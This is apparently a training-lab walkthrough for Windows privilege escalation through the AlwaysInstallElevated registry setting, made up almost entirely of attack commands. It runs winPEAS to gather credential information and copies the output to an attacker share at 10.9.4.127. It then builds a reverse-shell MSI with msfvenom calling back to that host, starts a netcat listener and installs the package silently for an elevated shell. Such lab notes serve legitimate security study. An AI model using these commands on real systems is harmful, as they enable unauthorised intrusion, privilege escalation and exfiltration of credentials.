





1x5 Registry - AlwaysInstallElevated

## Registry - AlwaysInstallElevated 

```bash
.\winPEASany.exe ansi quiet windowscreds > wpeas_wincreds_op.txt
copy C:\PrivEsc\wpeas_wincreds_op.txt \\10.9.4.127\kali\wpeas_wincreds_op.txt
cat wpeas_wincreds_op.txt
```


```console
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.4.127 LPORT=53 -f msi -o reverse.msi
```

```bash
copy \\10.9.4.127\kali\reverse.msi C:\PrivEsc\reverse.msi
```


```bash
sudo nc -nvlp 53
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

